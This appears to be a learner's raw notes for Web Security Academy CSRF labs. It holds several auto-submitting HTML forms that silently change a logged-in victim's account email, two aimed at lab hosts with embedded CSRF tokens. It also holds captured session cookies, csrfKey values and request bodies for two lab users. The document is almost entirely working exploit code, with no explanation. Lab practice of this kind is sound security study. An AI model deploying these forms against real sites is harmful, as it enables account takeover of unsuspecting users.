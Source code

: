 <html>
    <body>
        <form action="URL" method="POST">
            <input type="hidden" name="email" value="email@new.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

<html>
    <body>
        <form method="GET" action="URL">
            <input type="hidden" name="email" value="email@new.com">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>


###########################


<html>
    <body>
        <form action="https://0a45006203e57dd7c04f4f67006e00c9.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="evil@new.com">
            <input type="hidden" name="csrf" value="pBcFJwX2sQnzwiKQRBYM8CplQ8jHei79">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>




<html>
    <body>
        <form action="https://0a33007303ec2860c023d6ad008c00ba.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="email@new.com" />
             <input type="hidden" name="csrf" value="pig090HeQt1VrJK5r5kdhV8awgtwMd2u" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


carlos
Cookie: session=EJl8wlMbwztjtxbmsAMET2znsAByO32R; csrfKey=Q7tbiL2RYspr8bAYBFiVc3qFbG28j0fC
email=stay%40here.com&csrf=fIqWBJKvuiOe8bQbmNFSz1Mh8d0tROQS

Peter
Cookie: session=SYrxblQxOUC3lP37gxWmw0GKC9S1rh6i; csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP
email=stay%40here.coma&csrf=I3cdY6uXw5SWiE2FbnphGtw7GO2V2wH1zzz

